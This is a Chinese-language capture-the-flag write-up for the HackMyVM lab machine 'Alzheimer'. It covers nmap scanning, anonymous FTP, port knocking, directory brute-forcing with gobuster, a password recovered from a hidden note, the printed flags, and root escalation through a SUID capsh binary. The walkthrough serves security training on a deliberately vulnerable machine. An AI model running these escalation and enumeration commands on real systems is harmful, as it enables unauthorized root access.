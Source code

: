 ```yaml
---
{"dg-publish":true,"tags":["HMV","SUID提权","knock"],"难度":"😅","作者":"sml","permalink":"/24-渗透/HMV/9.Alzheimer/","dgPassFrontmatter":true,"noteIcon":"","created":"2024-11-22T19:13:18.856+08:00","updated":"2024-11-25T01:07:24.525+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/9.Alzheimer#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/9.Alzheimer#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/9.Alzheimer#3. ftp匿名登录\|3. ftp匿名登录]]
- [[24-渗透/HMV/9.Alzheimer#4. 提权\|4. 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Alzheimer
```


```
作者：sml
```

```
难度：死题
```


```
知识点：knock命令、SUID提权（capsh）
```

## 2. 信息收集

端口扫描

```Bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.11 -p 1-65535
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 23:23 CST
Nmap scan report for 192.168.9.11
Host is up (0.00034s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE    SERVICE
21/tcp open     ftp
22/tcp filtered ssh
80/tcp filtered http
MAC Address: 08:00:27:93:BB:DC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
```
对80 22进行了限制

## 3. ftp匿名登录

```Bash
ftp 192.168.9.11
anonymous
```
里面有一个.secretnote.txt 文件

查看

```Bash
cat .secretnote.txt 
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
```
解密 

意思是我们需要访问这3000个端口 然后就会有一个服务打开

依次访问这些端口

```Bash
knock 192.168.9.11 1000 2000 3000 -v
```
然后重新扫描一下

```Bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.11 -p 1-65535
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 23:30 CST
Nmap scan report for 192.168.9.11
Host is up (0.00023s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:93:BB:DC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```
可以发现22 80都开放了

访问网站

啥都没有

直接扫目录

```Bash
┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://192.168.9.11/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.9.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 301) [Size: 185] [--> http://192.168.9.11/home/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.9.11/admin/]
/secret               (Status: 301) [Size: 185] [--> http://192.168.9.11/secret/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
> 敲了半天开不了门。目录访问不了。后面看wp发现是网卡问题

这里直接给flag

```Bash
root@alzheimer:~# cat /root/root.txt
HMVlovememories
root@alzheimer:~# cat /home/medusa/user.txt
HMVrespectmemories
root@alzheimer:~# 
```
还是看下题目的考点吧。

敲门成功后访问网站根目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.001.png)

下面应该是一个摩斯密码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.002.png)

```Bash
OTHINGM
```
这个应该就是medusa的密码了

但是是不对的

继续看网站的其他目录

admin目录是空的

home目录下的文件提示我们pass在Home目录，但不是这个home目录

secret目录提示我们密码在这个secret目录的某个目录下

那密码就是在/secret/home目录

/secret/home目录的文件给了个啥用没有的提示

根目录给我们说他将密码写入了一个.txt文件

到目前为止，唯一获取到的.txt文件就是.secretnote.txt

```Bash
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
```
里面的Ihavebeenalwayshere!!! 就是medusa的密码

## 4. 提权

虽然flag有了，但还是看看提权部分吧

拿到用户medusa的权限后

```Bash
medusa@alzheimer:/root$ find / -perm -4000  2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/capsh
```


```Bash
capsh --gid=0 --uid=0 --
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.003.png)


